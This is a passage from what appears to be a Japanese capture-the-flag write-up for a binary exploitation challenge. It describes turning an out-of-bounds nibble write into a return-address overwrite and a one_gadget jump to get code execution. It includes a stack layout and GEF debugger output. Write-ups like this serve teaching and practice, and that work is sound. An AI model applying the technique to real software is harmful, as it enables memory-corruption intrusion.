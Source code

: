 というところを使って書き込みをします。`set_nibble`の第二引数は割って使われる点に注意する必要があります。

2番で使ったoob readは`sbox[x]`を1バイト読んだとき、同時に`round_key[x//2]`には4ビット書いています。`x`が偶数の時はnibbleの上側（ & 0x0f0相当 ）、奇数の時は下位側（ & 0x0f相当 ）を書きます。

スタックのレイアウトは以下の通りです（再掲）。今回はリターンアドレスを狙いたいので、`round_key`から+0x58に位置するところを狙って書き換えます。

```
0x7ffe448519f0: 0x9999999999999999      0x9999999999999999 --- round_key[8], block_out[8]
0x7ffe44851a00: 0x060e0d0c050a030b      0x07040f0908010002 --- sbox[16]
0x7ffe44851a10: 0x00007ffe44851b50      0x00007b4248e62142
0x7ffe44851a20: 0x0000003000000008      0xc49e839dffa49b00
0x7ffe44851a30: 0x00007ffe44851a40      0x0000000000000000
0x7ffe44851a40: 0x00007ffe44851af0      0x0000563edee216af --- return address
0x7ffe44851a50: 0x0000000000000007      0x0000563edef6d300
0x7ffe44851a60: 0x0000563edef6d2e0      0x0000563edef6d2c0
0x7ffe44851a70: 0x0000563edef6d2a0      0x0000000100000008
0x7ffe44851a80: 0x667b72616d6c616b      0x67616c665f656b61
0x7ffe44851a90: 0x7365745f726f665f      0x7d293a5f676e6974
```

`shift_array`を`0xb0`にすれば、リターンアドレスに書き込むことができます。書き込みは1ラウンドだけ書き込んで、あとは影響のないところに捨てればよいのでさっきとは逆で `shift_array`は`[[0xb0]+[0]*0xf]`と指定します。あとは鍵に応じて置換場所が変わるので、平文として`0123456789abcdef`など事前に入力して、置き換え位置を見て調整します。

8バイトしか書き込めていないので、one_gadgetか、copでコード実行につなぐ必要があります。（複数のROPを書くこともできると思いますが今回不要でした。）

リターンしたときの状況は以下の通りです。そのままコントロールできそうなヒープアドレスがいい位置にありますが、今回はone_gadgetにいいものが見つかりました。

```
───────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x00007ffce787ce38  →  0xcccccccccccccccc
$rdx   : 0x00006353c4dcd3e0  →  0xcccccccccccccccc
$rsp   : 0x00007ffce787ce88  →  0xdfaddaeeeebeedfb
$rbp   : 0x00007ffce787cf30  →  0x00007ffce787cf90  →  0x0000000000000001
$rsi   : 0xf               
$rdi   : 0x00007ffce787ce38  →  0xcccccccccccccccc
$rip   : 0x00006353c41325d6  →   ret 
$r8    : 0x00006353c4dcd3e0  →  0xcccccccccccccccc
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x00007cc03a3bf3c0  →  0x0002000200020002
$r12   : 0x00007ffce787d0a8  →  0x00007ffce787f2d8  →  "./challenge"
$r13   : 0x00006353c41326c6  →   endbr64 
$r14   : 0x00006353c4134d88  →  0x00006353c41321e0  →   endbr64 
$r15   : 0x00007cc03a577040  →  0x00007cc03a5782e0  →  0x00006353c4131000  →   jg 0x6353c4131047
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffce787ce88│+0x0000: 0xdfaddaeeeebeedfb   ← $rsp
0x00007ffce787ce90│+0x0008: 0x0000000000000007
0x00007ffce787ce98│+0x0010: 0x00006353c4dcd3e0  →  0xcccccccccccccccc
0x00007ffce787cea0│+0x0018: 0x00006353c4dcd3c0  →  0xbeefbeefdeaddead
0x00007ffce787cea8│+0x0020: 0x00006353c4dcd3a0  →  0x00000000000000b0
0x00007ffce787ceb0│+0x0028: 0x00006353c4dcd380  →  0x0000000000000000
0x00007ffce787ceb8│+0x0030: 0x00000001c4135020
0x00007ffce787cec0│+0x0038: "kalmar{fake_flag_for_testing_:)}"
─────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x6353c41325cc                  call   0x6353c41320f0 <__stack_chk_fail@plt>
   0x6353c41325d1                  mov    rbx, QWORD PTR [rbp-0x8]
   0x6353c41325d5                  leave  
●→ 0x6353c41325d6                  ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "challenge", stopped 0x6353c41325d6 in ?? (), reason: BREAKPOINT
```